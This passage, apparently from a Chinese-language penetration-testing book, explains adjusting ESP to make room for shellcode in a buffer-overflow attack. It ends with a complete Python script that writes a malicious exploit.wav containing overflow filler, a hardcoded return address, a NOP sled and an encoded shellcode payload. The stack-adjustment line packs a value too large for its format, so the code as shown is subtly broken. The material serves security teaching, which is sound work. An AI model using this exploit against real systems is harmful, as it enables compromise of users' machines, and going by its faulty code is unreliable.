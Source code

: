 现在，这个例子很简单，它可能会为系统提供一个本地攻击，但是有一个问题，我们的攻击失败了，因为它耗尽了空间。如前所述，我们必须调整放置 shell 代码的区域。

# 了解堆叠调整

我们向展示了代码执行在攻击过程中失败，因为我们的第二阶段在内存中破坏了第一阶段的代码。因此，我们需要更多的堆栈空间来完成此攻击。我们可以在必要时将代码拆分到内存中，也可以简单地扩展堆栈中的空间。

这是通过告诉系统向 ESP 添加空间来完成的。您可以通过以下两种方式之一来完成：添加负空间或减去正空间。这是因为正如我们前面提到的，堆栈从高地址增长到低地址。

![Understanding stack adjustments](../Images/image00403.jpeg)

因此，我们看到我们正在利用此漏洞攻击外壳代码，因此我们可以通过告诉 ESP 移动以容纳必要的空间来进行补偿。

![Understanding stack adjustments](../Images/image00404.jpeg)

为此，我们需要在外壳代码的前面添加一个十六进制调整。我们将用两种不同的方式来实现这一点。我们将在本节中重点介绍的第一种方法。然后，我们将在反转 Metasploit 有效负载时解释第二种方式。首先，我们需要弄清楚如何调整实际堆栈；我们可以通过`nasm_shell.rb in the /usr/share/metasploit-framework/tools/nasm_shell.rb`来实现这一点。

堆栈调整 80000 意味着我们要将该值添加到 ESP。为此，我们需要计算 80000 的 ESP 调整，但对于该计算，我们需要将 80000 更改为十六进制值。十六进制的等价物是 13880。

![Understanding stack adjustments](../Images/image00405.jpeg)

### 提示

您可以使用内置的 Windows 计算器在科学模式下从十进制更改为十六进制，反之亦然。

这意味着我们将以下代码添加到我们的漏洞中以调整堆栈`adjustment = struct.pack('<I',0x81EC80380100)`。然后，我们在外壳代码前面加上调整值`exploit = fill + eip + offset + adjustment + shell`。最后，我们移除 NOP 底座，因为这并没有填充我们的第二阶段将包含的空间，最终的代码将类似于此。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
adjustment = struct.pack('<I',0x81EC80380100)
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
exploit = fill + eip + offset +adjustment + shell
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```
